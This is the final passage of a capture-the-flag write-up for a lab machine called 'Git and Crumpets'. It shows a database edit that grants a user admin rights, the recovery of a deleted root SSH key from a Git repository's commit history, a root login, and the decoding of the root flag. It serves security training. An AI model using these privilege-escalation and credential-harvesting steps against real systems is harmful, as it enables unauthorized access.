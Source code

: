 ```sql
```

Update our permissions to root user.

```sql
sqlite> UPDATE user SET is_admin=1 WHERE id=3;
```

Now if we visit the website we see a private repository  called `backups` owned by root!

![header](../../assets/img/posts/Gitandcrumpets/website12.png)

We have 2 branches in here `master` & `dotfiles`.

![header](../../assets/img/posts/Gitandcrumpets/website13.png)

The **dotfiles** branch has 4 commits. We see that the root user added his ssh keys and then deleted it.

![header](../../assets/img/posts/Gitandcrumpets/website14.png)

Lets now grab the SSH private key and ssh into the box as root to grab the root flag!🚩

NOTE - The name of the file is the passphrase required to ssh in as root.

```
┌──(root💀kali)-[~/thm/gitsandcrumpets]
└─# ssh root@git.git-and-crumpets.thm -i id_rsa 
Enter passphrase for key 'id_rsa': 
Last login: Sat Jul  3 21:36:13 2021 from 192.168.247.1

[root@git-and-crumpets ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@git-and-crumpets ~]# cat /root/root.txt
dGhtezYzMjAy*********g4NzI0MGRjNmExfQ==

[root@git-and-crumpets ~]# cat /root/root.txt | base64 -d
thm{6320228d*********7240dc6a1}
```